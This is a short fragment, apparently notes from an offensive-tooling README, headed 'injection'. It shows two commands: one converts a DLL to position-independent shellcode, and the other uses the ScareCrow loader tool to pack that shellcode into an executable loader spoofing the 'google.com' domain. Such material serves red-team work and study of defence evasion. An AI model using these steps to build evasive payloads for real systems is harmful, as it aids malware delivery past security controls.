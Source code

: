 # injection

    # convert DLLs to position independent shellcode
    python3 srdi/Python/ConvertToShellcode.py hello.dll

    # payload creation into a random MS executable
    ./ScareCrow -I hello.bin -Loader binary -domain "google.com"
